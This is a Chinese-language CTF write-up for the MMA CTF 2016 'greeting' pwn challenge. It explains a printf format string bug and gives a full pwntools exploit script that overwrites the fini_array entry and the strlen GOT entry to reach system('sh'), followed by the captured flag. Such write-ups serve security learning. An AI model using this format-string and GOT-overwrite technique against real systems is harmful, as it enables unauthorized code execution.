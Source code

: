title: '[MMA CTF 2nd 2016] greeting 150'
author: bananaapple
tags:
  - MMA CTF 2nd 2016
  - 'pwn '
  - format string
categories:
  - write-ups
  - ''
date: 2016-09-05 02:44:00
---
# 題目說明

![](https://i.imgur.com/6ZEFGgI.png)

題目一開始會用 getline(v6, 64) 讀取 input

接著 printf 沒有給參數會觸發 format string exploit

# exploit

這題有 system function 可以用，所以 exploit 會好寫許多

把 _do_global_dtors_aux_fini_array_entry 改成 main 的 address

在 main 結束後又可以回到 main 再輸入一次

然後再把 strlen 的 GOT 改成 system 的 PLT

當 strlen function 被呼叫的時候 strlen('sh') => system('sh')

就可以得到 shell 了

# payload

```python2
#!/usr/bin/env python2
from pwn import * 
ip = "pwn2.chal.ctf.westerns.tokyo"
port= 16317
s = remote(ip,port)
print(s.readline())

strlen_got = 0x8049a54
fini_got = 0x08049934

p = "qq"
p += p32(fini_got+2)
p += p32(strlen_got+2)
p += p32(strlen_got)
p += p32(fini_got)
p += "%"+str(2016)+"c"
p += "%"+str(12)+"$hn"
p += "%"+str(13)+"$hn"
p += "%"+str(31884)+"c"
p += "%"+str(14)+"$hn"
p += "%"+str(349)+"c"
p += "%"+str(15)+"$hn"

print(len(p))
p = p.ljust(62,"a")
s.sendline(p)

buf = s.readline()
print(buf)

s.sendline('sh')
s.interactive()

```

# flag

```
TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}
```